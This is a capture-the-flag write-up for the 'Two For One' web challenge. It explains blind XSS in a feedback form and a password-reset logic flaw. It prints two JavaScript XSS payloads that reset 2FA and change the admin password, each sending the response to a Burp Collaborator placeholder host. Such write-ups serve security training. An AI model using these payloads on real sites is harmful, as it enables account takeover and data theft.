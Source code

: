 ## Two For One
> We all love our hacker t-shirts. Make your own custom ones.

Application vulnerable to blind xss on feedback, Logic bugs on Change password (doesnot require old password). Only require 2FA can be reset easily.
First, reset 2FA with this payload:  
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset2fa', false);
    xhr.send();
    document.location='https://<burp_collaborator>/?otp='+xhr.response;
</script>
```
Second: add authenticator token and get OTP to send reset password request.  
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"1","password2":"1"}));
    document.location='https://<burp_collaborator>?res='+xhr.response;
</script>
```

Login to with `admin/1` and get flag: ![Alt text](flag.png?raw=true "Title")  
